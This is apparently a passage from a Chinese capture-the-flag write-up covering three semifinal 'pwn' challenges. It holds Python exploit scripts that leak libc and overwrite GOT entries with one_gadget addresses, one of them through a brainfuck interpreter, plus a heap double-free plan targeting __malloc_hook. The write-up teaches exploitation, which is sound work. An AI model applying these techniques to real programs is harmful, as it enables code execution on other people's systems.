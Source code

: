```python
login('b'*6)
add_free('b'*6,'a')
add_free('b'*6,'d')

view_profile()
ru('Age:')
base = int(ru('\n'),16)-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
puts = base + libc.sym['puts']

logout()
reg(0x20, p64(elf.got['puts']))
login(p64(puts))
edit(p64(base+0x4526a)[:-2])
```

## semifinal_pwn2

这题比较有意思，程序是一个 brainfuck 解释器，规则是：

- `<`： `p--`
- `>`： `p++`
- `.`： `putc(*p)`
- `,`： `read(0,p,1)`
- `+`： `*p++`
- `-`： `*p--`

换句话说已经可以构造任意地址读写了，那么首先利用上述规则泄露 `stdin` 来泄露 libc，然后用 one_gadget 覆盖 got 表。

```python
stdin = 0x602090
star = 0x6020c0
exit = elf.got['exit']

payload = '<'*(star-stdin) + '.>.>.>.>.>.>'
payload += '<'*(stdin+6-exit) + ',>,>,>,>,>,'
sla(':',payload)
stdin = uu64(r(6))
base = stdin - libc.sym['_IO_2_1_stdin_']
leak('base',base)
one = p64(base + 0xf1147)

for i in range(6):
    s(one[i])
```

## semifinal_pwn3

本题当输入选项为 `1337` 时会调用一个奇怪的函数，但实际上由于 uaf 漏洞的存在这个函数并没有什么用。还有一个比较少见的 `clean` 功能用于清除所有指针，这里是不存在 uaf 的。

我们可以直接 unsorted bin 泄露 libc（这里是通过 `clean` 功能清楚指针，重新申请到释放的 small chunk 后泄露 `bk`），然后 double free 写 `malloc_hook`，最后故意 double free 触发 `malloc_print_err`，调用 `malloc_hook`。
